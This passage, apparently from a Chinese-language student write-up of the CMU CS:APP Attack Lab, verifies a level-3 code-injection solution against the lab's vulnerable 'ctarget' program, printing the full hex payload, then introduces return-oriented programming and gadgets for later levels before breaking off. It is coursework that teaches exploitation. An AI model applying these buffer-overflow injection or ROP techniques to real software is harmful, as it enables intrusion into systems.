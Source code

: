 然后我们可以验证该解的正确性：

```shell script
> ./hex2raw -i phase3.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 69 64 65 61 6C 69 73 6D 2D 78 78 6D 6D 78 78 2D 6D 73 69 6C 61 65 64 69 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```

### 中场学习

第四关和第五关要使用 `rtarget` 进行攻击，而这个程序开启了栈随机化，并且限制栈不可执行，所以难度大大增加。

[Attack Lab writeup](http://csapp.cs.cmu.edu/3e/attacklab.pdf) 提示我们可以使用 `ROP` (`return-oriented programming`) 技术来执行我们需要的指令， `ROP` 是在找到程序中以 `ret` 结尾的一段指令序列，这种指令序列称作 `gadget` 。

![figure2](attacklab/figure2.png)

例如存在如下函数：

```c
void setval_210(unsigned *p)
{
    *p = 3347663060U;
}
```

其对应的汇编代码为：
